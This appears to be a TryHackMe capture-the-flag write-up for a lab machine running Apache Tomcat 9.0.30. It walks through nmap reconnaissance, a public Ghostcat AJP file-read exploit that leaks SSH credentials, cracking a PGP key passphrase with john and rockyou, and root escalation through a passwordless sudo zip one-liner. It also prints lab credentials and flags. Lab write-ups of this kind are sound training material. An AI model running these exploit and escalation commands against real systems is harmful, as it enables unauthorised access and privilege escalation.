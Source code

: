### IP
`10.10.200.229`


# Reconnaissance

### nmap

`nmap -sC -sV `

```
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3c89f0b6ac5fe95540be9e3ba93db7c (RSA)
|   256 dd1a09f59963a3430d2d90d8e3e11fb9 (ECDSA)
|_  256 48d1301b386cc653ea3081805d0cf105 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Here, we can see that the apache tomcat application has jserv listening on port 8009 for all IPs. 

We can do `searchsploit ajp` to find an exploit that will allow us to read sensitive configuration files.

The following lets us mirror the exploit:
`searchsploit -m multiple/webapps/48143.py`


Running the exploit provides us with what looks like credentials
`python2 48143.py -p 8009 10.10.77.159`
```
Getting resource at ajp13://10.10.77.159:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```
`skyfuck:8730281lkjlkjdqlksalks`


Once we log in with ssh, we get the user flag in one of the home directories:
`THM{GhostCat_1s_so_cr4sy}`

# Privilege Escalation

### Hash cracking

We also see a pgp-encrypted file and a pgp private key. Unfortunately, the private key has a password.

We can try to crack the password by first generating a hash

`gpg2john tryhackme.asc > gpg.hash`

and then by using that hash with the rockyou wordlist

`john --format=gpg gpg.hash -w=/usr/share/wordlists/rockyou.txt`

We get the following credentials:

`tryhackme:alexandru`

We can use `gpg --import tryhackme.asc` and the password `alexandru` to import the private key

Running `gpg -d credential.gpg` will decrypt the file using our imported private key and will show us login info for the merlin user:

`merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

### sudoers

The merlin user can run `zip` as root with no password:
`sudo -l`
```
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip

```

Using [this](https://gtfobins.github.io/gtfobins/zip/), we can get a shell as root:

`sudo zip a /etc/bash.bashrc -T -TT 'bash #'`

From here, we can get the root flag

`THM{Z1P_1S_FAKE}`

